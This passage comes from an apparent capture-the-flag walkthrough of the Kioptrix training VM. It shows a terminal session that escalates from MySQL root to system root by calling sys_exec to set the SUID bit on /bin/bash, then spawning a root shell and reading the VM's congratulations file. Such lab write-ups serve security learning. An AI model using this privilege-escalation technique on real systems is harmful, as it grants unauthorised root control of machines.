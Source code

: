 Cool, so normally at this point you might want to look around the tables within the various databases, but since we know MySQL is running as root, there's some fun exploitation we can do.

There's a great and quick [blog post](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/) that walks through this exploitation. 

So, now knowing this (assuming you read the link), we can simply utilize `sys_exec` to do some fun stuff:

```sql
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> mysql> select sys_exec('chmod u+s /bin/bash');
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'mysql> select sys_exec('chmod u+s /bin/bash')' at line 1
mysql> use mysql;
Database changed
mysql> select sys_exec('chmod u+s /bin/bash');
+---------------------------------+
| sys_exec('chmod u+s /bin/bash') |
+---------------------------------+
| NULL                            | 
+---------------------------------+
1 row in set (0.01 sec)

mysql> exit
Bye
bash-3.2$ bash -p
bash-3.2# id
uid=1001(john) gid=1001(john) euid=0(root) groups=1001(john)
bash-3.2# cat /root/congrats.txt
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret

bash-3.2# 
```
